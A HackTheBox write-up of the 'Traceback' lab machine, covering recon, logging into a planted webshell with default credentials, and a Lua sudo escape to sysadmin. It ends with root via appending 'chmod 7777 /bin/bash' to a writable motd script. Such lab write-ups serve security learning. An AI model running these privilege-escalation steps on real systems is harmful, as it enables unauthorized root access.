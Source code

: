 ```yaml
---
title: Traceback
date: 2022-06-16 
categories: [HackTheBox, Easy]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/dVPTnt8.png)

Traceback is one of the boxes I am proud of doing not because of its difficulty, but how fast I was able to gain root on it. Granted, the "hacker" who this box's premised revolved around, left hints that were brutally obvious. This was one of the first times that I did not run into a wall while solving the box. The attack vector was very clear from start to finish.

## Recon

`nmap -sVC 10.10.10.181`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-15 20:37 EDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache/2.4.29 (Ubuntu)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.43 seconds
```

![](https://i.imgur.com/tc6BJGj.png)


Apparently theres a backdoor somewhere. Its probably a webshell of some sort.

`gobuster dir -u http://10.10.10.181 -w /usr/share/seclists/Web-Shells/backdoor_list.txt`
```    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.181
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Web-Shells/backdoor_list.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/15 20:41:50 Starting gobuster in directory enumeration mode
===============================================================
/smevk.php            (Status: 200) [Size: 1261]                
===============================================================
```

![](https://i.imgur.com/iFWnKhI.png)

Looks like we got some sort of webshell.

![](https://i.imgur.com/ewcBU6Q.png)
Based on the github repo for this specific webshell, the default creds are just admin admin so lets test that.

![](https://i.imgur.com/wjLCXwc.png)

After some play testing, heres my conclusion about this webshell
* its pretty janky
* we have file write
* attemped a reverse shell but something went wrong

Upload my ssh key into the .ssh directory and ssh in.

`ssh webadmin@traceback.htb`
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jun 15 18:10:25 2022 from 10.10.14.19
webadmin@traceback:~$ 
```

Worked perfectly however this is not user. sysadmin is the user and we need to pivot to them.
> It is also worth noting that message of the day when sshing in
{: .prompt-idea }

`sudo -l`
```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

`cat note.txt `
```
- sysadmin -
I have left a tool to practice Lua.
Im sure you know where to find it.
Contact me if you have any question.
```

Couple of interesting finds. Note.txt is referring to some sort of Lua program and `sudo -l` references luvit which is a lua program. Putting two and two together, we can abuse the lua program to spawn a shell as our user.

Running the program just executes lua commands so we can just simply spawn a shell.

Demo:
```
Welcome to the Luvit repl!
> os.execute('/bin/sh')
$ whoami
sysadmin
```

User obtained. Time for root.

## Root

```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land
```

Revisiting the motd, the hacker seems to have left us a large hint moving forward.

`ls -la /etc/update-motd.d/`
```
total 32
drwxr-xr-x  2 root sysadmin 4096 Apr 22  2021 .
drwxr-xr-x 80 root root     4096 Apr 22  2021 ..
-rwxrwxr-x  1 root sysadmin  981 Jun 15 19:39 00-header
-rwxrwxr-x  1 root sysadmin  982 Jun 15 19:39 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Jun 15 19:39 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Jun 15 19:39 80-esm
-rwxrwxr-x  1 root sysadmin  299 Jun 15 19:39 91-release-upgrade
```
Looks like all of them are writable. These are scripts that are run when you logon to the box meaning we can just turn /bin/bash into an suid and run bash -p to gain root.

```bash
echo "chmod 7777 /bin/bash" >> /etc/update-motd.d/00-header
```

Then log out and relog on.

Demo
```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Jun 15 19:35:06 2022 from 10.10.14.19
-bash-4.4$ whoami
webadmin
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

Pwned :)